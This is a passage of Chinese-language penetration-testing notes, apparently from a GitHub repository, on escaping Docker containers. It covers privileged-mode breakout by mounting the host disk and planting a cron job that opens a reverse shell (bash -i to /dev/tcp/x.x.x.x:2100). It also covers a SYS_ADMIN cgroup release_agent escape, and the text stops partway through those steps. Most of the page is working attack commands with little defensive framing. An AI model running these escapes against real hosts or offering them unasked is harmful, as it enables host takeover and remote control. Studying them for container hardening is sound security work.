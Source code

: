 **privileged 特权模式**

- 简述

    特权模式于版本 0.6 时被引入 Docker，允许容器内的 root 拥有外部物理机 root 权限，而此前容器内 root 用户仅拥有外部物理机普通用户权限。

    使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行 `docker run --privileged` 时，Docker 容器将被允许访问主机上的所有设备，并可以执行 mount 命令进行挂载。

    当控制使用特权模式启动的容器时，docker 管理员可通过 mount 命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

1. 首先以特权模式运行一个 docker 容器
    ```bash
    docker run -it --privileged=true ubuntu /bin/bash
    ```

2. 查看磁盘文件
    ```bash
    fdisk -l
    ```

3. dm-0 存在于 `/dev` 目录下,新建一个目录,将 `/dev/dm-0` 挂载至新建的目录
    ```bash
    mkdir /aaa
    mount /dev/dm-0 /aaa
    ```

4. 写入计划任务到宿主机
    ```bash
    echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/2100 0>&1' >> /aaa/var/spool/cron/root
    ```

**capability SYS_ADMIN**

- 前提
    - 在容器内 root 用户
    - 容器必须使用 SYS_ADMIN Linux capability 运行
    - 容器必须缺少 AppArmor 配置文件，否则将允许 mount syscall
    - cgroup v1 虚拟文件系统必须以读写方式安装在容器内部

- 简述

    我们需要一个 cgroup，可以在其中写入 notify_on_release 文件(for enable cgroup notifications)，挂载 cgroup 控制器并创建子 cgroup，创建 `/bin/sh` 进程并将其 PID 写入 cgroup.procs 文件，sh 退出后执行release_agent 文件。

1. 主机使用 SYS_ADMIN Linux capability 运行一个 docker 容器
    ```bash
    docker run -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
    ```

2. 挂载 cgroup 控制器并创建子 cgroup
    ```bash
    mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
    ```
    > 注:如果这里报错"mount: /tmp/cgrp: special device cgroup does not exist.",将 rdma 改为 memory

3. 创建 `/bin/sh` 进程并将其 PID 写入 cgroup.procs 文件，sh 退出后执行 release_agent 文件。
    ```bash
    echo 1 > /tmp/cgrp/x/notify_on_release
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo "$host_path/cmd" > /tmp/cgrp/release_agent
